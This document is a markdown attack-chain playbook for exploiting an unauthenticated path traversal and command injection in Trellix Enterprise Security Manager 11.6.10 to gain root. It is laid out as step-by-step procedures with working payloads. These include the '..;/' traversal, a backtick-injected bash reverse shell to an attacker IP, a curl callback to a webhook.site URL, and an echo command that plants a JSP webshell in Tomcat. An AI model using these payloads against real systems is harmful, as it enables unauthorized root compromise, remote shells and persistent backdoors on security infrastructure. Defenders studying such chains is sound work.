

# Unauthenticated Path Traversal Leading to Root RCE in Trellix Enterprise Security Manager

Multi-stage attack chain demonstrating exploitation of a critical unauthenticated path traversal in Trellix Enterprise Security Manager (ESM) 11.6.10 to bypass AJP ProxyPass restrictions and achieve command injection for full system compromise as root.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Burp-Collaborator]]
- [[tools/Webhook-site]]

### Target Environment

- Trellix ESM 11.6.10 on Linux with Apache/Tomcat stack
- Exposed /rs endpoint via AJP on port 8009
- Services: Snowservice, SnowflexAdminServices

### Initial Access Requirements

- Network access to the public ESM web interface
- No authentication required
- Attacker IP for reverse shell callbacks

## Detailed Attack Procedures

### Step 1: Confirm Unauthenticated Access to Internal API

procedure: [[procedures/Confirm-Path-Traversal-Access-to-Snowservice-API]]

**Objective**: Bypass directory restrictions using path traversal to access the restricted Snowservice API without authentication.

**Instructions**: Intercept traffic with [[tools/Burp-Suite]] and send a POST request to the /rs endpoint with traversal payload.

**Expected Output**: Successful response from CreateNode endpoint, indicating unauthorized access.

**Success Indicators**:
- HTTP 200 response with JSON acknowledgment
- No authentication prompt

### Step 2: Verify Path Traversal Access to Internal API

procedure: [[procedures/Verify-Path-Traversal-Bypass-in-AJP]]

**Objective**: Confirm the traversal bypasses AJP ProxyPass normalization checks to reach internal endpoints.

**Instructions**: Replay the same traversal request as Step 1 to validate consistent access to SnowflexAdminServices.

**Expected Output**: Repeated successful access to the API, demonstrating bypass reliability.

**Success Indicators**:
- Consistent unauthorized API responses
- No directory restriction errors

### Step 3: Exploit Command Injection for Remote Code Execution

procedure: [[procedures/Exploit-Command-Injection-for-Reverse-Shell]]

**Objective**: Inject shell commands via the unsanitized 'name' parameter to establish a root reverse shell.

**Instructions**: Use [[tools/Burp-Suite]] to send a POST to ManageNode with backtick-injected command using [[commands/bash-reverse-shell]]:

```bash
`bash -i >& /dev/tcp/[Attacker IP]/2137 0>&1`
```

**Expected Output**: Incoming reverse shell connection to attacker's listener.

**Success Indicators**:
- Shell prompt as root
- Command execution confirmation (e.g., whoami returns root)

### Step 4: Alternative Exploitation Using Out-of-Band Command

procedure: [[procedures/Verify-RCE-with-Out-of-Band-HTTP-Callback]]

**Objective**: Verify RCE when direct output is unavailable by triggering an observable external HTTP request.

**Instructions**: Inject [[commands/curl-webhook-oob]] via backticks in the 'name' parameter:

```bash
`curl http://webhook.site/acde4291-64b0-4c2d-b4e3-0c3aeb881c6e`
```
Monitor with [[tools/Webhook-site]].

**Expected Output**: Logged HTTP request in webhook confirming execution.

**Success Indicators**:
- Incoming GET request to webhook URL
- Timestamp matching injection time

### Step 5: Deploy Webshell for Persistent Access

procedure: [[procedures/Deploy-JSP-Webshell-for-Persistent-Access]]

**Objective**: Write a JSP webshell to Tomcat for ongoing command execution, bypassing potential firewall blocks on reverse shells.

**Instructions**: Inject [[commands/echo-jsp-webshell]] via backticks:

```bash
`echo '<% if (request.getParameter(\"cmd\") != null) { Process p = Runtime.getRuntime().exec(request.getParameter(\"cmd\")); java.io.InputStream in = p.getInputStream(); int a = -1; while ((a = in.read()) != -1) out.print((char)a); } %>' > /etc/tomcat/webapps/ROOT/shell.jsp`
```
Then test with [[commands/id-check-privs]] via GET /rs/..;/shell.jsp?cmd=id.

**Expected Output**: Webshell file created; id command returns root privileges.

**Success Indicators**:
- File written to /etc/tomcat/webapps/ROOT/shell.jsp
- Command output: uid=0(root) gid=0(root)

## Attack Chain Summary

### Key Achievements

1. Bypassed AJP ProxyPass restrictions using '..;/' traversal to access internal Snowservice APIs unauthenticated.
2. Exploited command injection in ManageNode 'name' parameter for arbitrary shell execution as root.
3. Achieved full compromise via reverse shell, OOB verification, and persistent JSP webshell deployment.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Unix Shell]] Unix Shell

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
